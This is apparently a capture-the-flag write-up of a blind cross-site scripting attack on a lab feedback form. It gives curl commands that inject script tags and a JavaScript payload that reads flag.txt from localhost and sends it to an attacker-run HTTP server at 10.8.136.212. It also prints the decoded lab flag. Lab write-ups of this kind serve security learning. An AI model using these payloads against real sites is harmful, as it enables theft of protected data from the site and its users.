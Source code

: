 # id: 10.10.59.111

# hint

Can you read the flag at http://10.10.59.111:8080/flag.txt?

# try it out just now

┌──(root㉿docker-desktop)-[/]
└─# curl http://10.10.59.111:8080/flag.txt

<h1>401 Unauthorized</h1>

# capture the post message

http://10.10.59.111:8080/submit_feedback
![](https://velog.velcdn.com/images/agnusdei1207/post/e0dc890b-369c-4bb8-9cad-4ceda9ab9ea1/image.png)

```
POST /submit_feedback HTTP/1.1
Host: 10.10.59.111:8080
Content-Length: 14
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.59.111:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.59.111:8080/submit_feedback
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

feedback=asdad

# Blind XSS check

curl -X POST http://10.10.59.111:8080/submit_feedback -H "Content-Type: application/x-www-form-urlencoded" -H "Origin: http://10.10.59.111:8080" -H "Referer: http://10.10.59.111:8080/submit_feedback" --data "feedback=<script src="http://10.8.136.212:8000/"></script>"

# setting payload

```python
import urllib.parse

def url_encode(text: str) -> str:
    return urllib.parse.quote(text)

def url_decode(encoded_text: str) -> str:
    return urllib.parse.unquote(encoded_text)

original = "<script src="http://10.8.136.212:8000/"></script>"
encoded = url_encode(original)
decoded = url_decode(encoded)

print("original:", original)
print("encoded:", encoded)
print("decoded:", decoded)

```

# success the blind XSS

![](https://velog.velcdn.com/images/agnusdei1207/post/b5252105-4522-428d-a133-2239d228ac67/image.png)

# starting the actual blind XSS phase now

python3 -m http.server 8000

<script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://10.8.136.212:8000/?flag=' + encodeURIComponent(data));
    });
</script>

# try it out

curl -X POST http://10.10.59.111:8080/submit_feedback -H "Content-Type: application/x-www-form-urlencoded" -H "Origin: http://10.10.59.111:8080" -H "Referer: http://10.10.59.111:8080/submit_feedback" --data-urlencode "feedback=<script>fetch('http://127.0.0.1:8080/flag.txt').then(response => response.text()).then(data => {fetch('http://10.8.136.212:9000?flag=' + encodeURIComponent(data));});</script>"

# success

![](https://velog.velcdn.com/images/agnusdei1207/post/6ca7e097-8ff7-41f9-8fa7-513c67a15eea/image.png)

# let's decode

```
import urllib.parse

encoded = "THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D"
decoded = urllib.parse.unquote(encoded)

print(decoded)

```

python3 -c "import urllib.parse; print(urllib.parse.unquote('THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D'))"
